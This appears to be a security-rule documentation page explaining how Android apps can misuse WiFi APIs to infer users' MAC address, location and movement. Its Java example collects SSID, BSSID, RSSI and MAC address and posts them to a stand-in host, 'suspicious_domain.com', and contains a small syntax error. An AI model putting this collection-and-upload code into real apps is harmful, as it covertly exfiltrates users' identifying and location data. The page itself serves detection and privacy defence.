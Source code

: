 Android APK WiFi API allows access to Personal Identifiable Information (PII) such as network names and access points usage history, potentially leading to private data inference.

Applications using the `ACCESS_WIFI_STATE` permission and calling APIs like `getConnectionInfo` can access sensitive information about WiFi access points (such as BSSID, SSID, and RSSI) and potentially infer:

* MAC Address which is a unique device identifier
* Geolocation data by using surrounding WiFi access points
* User movement history and social links inference relying on repeating patterns in WiFi access point usage

### Examples

=== "Java"

 ```java
 
    import android.content.Context;
    import android.net.wifi.WifiInfo;
    import android.net.wifi.WifiManager;
    import java.net.HttpURLConnection;
    import java.net.URL;
    import java.io.OutputStream;
    import java.nio.charset.StandardCharsets;
    
    public class WifiInfoRetriever {
    
        private Context context;
    
        public WifiInfoRetriever(Context context) {
            this.context = context;
        }
    
        public void retrieveWifiInfo() {
            WifiManager wifiManager = (WifiManager) context.getSystemService(Context.WIFI_SERVICE);
            
            if (wifiManager.isWifiEnabled()) {
                WifiInfo wifiInfo = wifiManager.getConnectionInfo();
                
                String ssid = wifiInfo.getSSID();
                String bssid = wifiInfo.getBSSID();
                int rssi = wifiInfo.getRssi();
                String macAddress = wifiInfo.getMacAddress();
                
                // Construct JSON with data
                String jsonInputString = String.format("{\"ssid\":\"%s\", \"bssid\":\"%s\", \"rssi\":%d, \"macAddress\":\"%s\"}",
                ssid, bssid, rssi, macAddress);
                
                try {
                    // Endpoint URL
                    URL url = new URL("http://suspicious_domain.com/api/networks");
                    HttpURLConnection connection = (HttpURLConnection) url.openConnection();
                    
                    // Connection setup
                    connection.setDoOutput(true);
                    connection.setRequestMethod("POST");
                    connection.setRequestProperty("Content-Type", "application/json");
                    
                    try (OutputStream os = connection.getOutputStream()) {
                        byte[] input = jsonInputString.getBytes(StandardCharsets.UTF_8);
                        os.write(input, 0, input.length);
                    }
                    // Additional analysis could be performed when the data reaches the endpoint
                    // such as inferring location or movement patterns of users             
                    connection.disconnect();
                } catch (Exception e) {
                    e.printStackTrace():
                }
            } else {
                System.out.println("WiFi is not enabled");
            }
        }
    }
 ```

